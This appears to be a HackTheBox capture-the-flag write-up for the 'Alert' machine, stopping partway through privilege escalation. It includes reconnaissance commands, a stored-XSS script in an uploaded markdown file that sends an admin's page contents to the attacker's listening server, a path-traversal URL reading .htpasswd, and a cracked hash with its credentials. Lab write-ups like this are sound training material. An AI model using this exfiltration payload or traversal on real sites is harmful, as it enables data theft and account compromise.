## HackTheBox Machine


### Link: https://app.hackthebox.com/machines/Alert
-------------------------------------------------------

### RECON:
+ Scan open port in the machine:

```bash
$ nmap -sV -vv -A -T4 -p- alert.htb
PORT      STATE    SERVICE REASON      VERSION
22/tcp    open     ssh     syn-ack     OpenSSH 8.2p1 Ubuntu 4ubuntu0.11 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 7e:46:2c:46:6e:e6:d1:eb:2d:9d:34:25:e6:36:14:a7 (RSA)
| ssh-rsa 
|   256 45:7b:20:95:ec:17:c5:b4:d8:86:50:81:e0:8c:e8:b8 (ECDSA)
| ecdsa-sha2-nistp256 
|   256 cb:92:ad:6b:fc:c8:8e:5e:9f:8c:a2:69:1b:6d:d0:f7 (ED25519)
|_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIG/QUl3gapBOWCGEHplsOKe2NlWjlrb5vTTLjg6gMuGl
80/tcp    open     http    syn-ack     Apache httpd 2.4.41 ((Ubuntu))
| http-title: Alert - Markdown Viewer
|_Requested resource was index.php?page=alert
|_http-server-header: Apache/2.4.41 (Ubuntu)
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
12227/tcp filtered unknown no-response
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

+ Enumerate the all directories:

```bash
$ gobuster dir -u http://alert.htb -w /usr/share/wordlists/dirb/common.txt -xtxt -t64
===============================================================
Starting gobuster in directory enumeration mode
===============================================================

/contact.php          (Status: 200) [Size: 24]
/css                  (Status: 301) [Size: 304] [--> http://alert.htb/css/]
/index.php            (Status: 302) [Size: 660] [--> index.php?page=alert]
/index.php            (Status: 302) [Size: 660] [--> index.php?page=alert]
/messages             (Status: 301) [Size: 309] [--> http://alert.htb/messages/]
/messages.php         (Status: 200) [Size: 1]
/server-status        (Status: 403) [Size: 274]
/uploads              (Status: 301) [Size: 308] [--> http://alert.htb/uploads/]
Progress: 18456 / 18460 (99.98%)
===============================================================
Finished
```

+ Enumerate valid subdomain of `alert.htb`:

```bash
$ ./ffuf -u 'http://alert.htb' -H 'Host: FUZZ.alert.htb' -w /usr/share/SecLists/Discovery/DNS/subdomains-top1million-20000.txt -mc all -t 100 -fc 301
```


### XSS VULN:
+ In page `alert` - Markdown Viewer, we upload file `.md`. After checking all potential parameters can be XSS, we've found out that we can inject payload into file `.md` to pop up the alert XSS when view markdown.
+ We've prepared the payload `<script>alert(document.domain)</script>` and upload file `.md` to view markdown:



--> It work and the vuln XSS exist.

+ Check another pages, we notice in page `About us`:



--> It means that when we send contact messages and report then admin account will be auto checked. We can send messages in page `Contact` and capture the action of account administrators. Using the XSS Vuln to retrive sensitive information.

### GET INITIAL:
+ First we will generate payload XSS to retrive:

```js
<script>
fetch("http://alert.htb/index.php?page=messages")
.then(response => response.text()) // Convert the response to text
.then(data => {
fetch("http://10.10.14.29:8000/?data=" + encodeURIComponent(data));
})
</script>
```

***Note:*** When enumerating the directories, we found the hidden direc `messages` but we can not read information inside so we will use payload XSS to retrive informatio inside `messages`.

+ We open the local server:

```bash
$ sudo python3 -m http.server
[sudo] password for zicco: 
Serving HTTP on 0.0.0.0 port 8000 (http://0.0.0.0:8000/) ...
```

+ Upload the payload `.md`, after upload normal we choose `Share Mardown` and get the share link:


+ Copy the `link_share` and send it in `Contact`:



+ After send it, we will check the local server will capture the action:



+ Decode the capture and we see the potential information:



--> Now we can see the hidden direct `Messages` and notice the line `<h1>Messages</h1><ul><li><a href='messages.php?file=2024-03-10_15-48-34.txt'>2024-03-10_15-48-34.txt</a></li></ul>`. We are able to access the messages.php with parameter `file` to read deeper.

+ We will manipulate `messages.php?file=` to read root file of subdomain which we've found `statistics.alert.htb` and we have the `PATH=/var/www/statistics.alert.htb/`. 
+ We've known the file contain password we can find in root file that is `.htpasswd`. Combine with `Path Traversal` we'had the full path: `http://alert.htb/messages.php?file=../../../../../var/www/statistics.alert.htb/.htpasswd`.
+ Edit payload, get the link_share, send it and capture again:



+ Decode the capture:



+ Crack the passwd. Put the full hash `$apr1$bMoRBJOg$igG8WBtQ1xYDTQdLjSWZQ/` in file .txt and use tool JohnTheRipper or Hashcat to bruteforce it:



--> We've had credential `albert:machesterunited`.

+ Login SSH:



### PRIVILEGE ESCALATION:
+ We can not run sudo. Using tool to enumerate vector priv and found the server port 8080 run local:


+ Check again `/opt`, we've known server is running port 8080 is `webstie-monitor`:



+ Website is monitoring 2 pages `alert.htb` and `statistics.alert.htb`:



+ Curl port 8080 we can read it but can not access directly:



+ We can use `Tunnel` to access port 8080. With myself, we use tool [Chisel](https://github.com/jpillora/chisel) to create TCP tunnel over HTTP to access port 8080.

+ In the attack machine, we open listener:



+ In target machine, we open:



+ Now we can access the page port 8080:




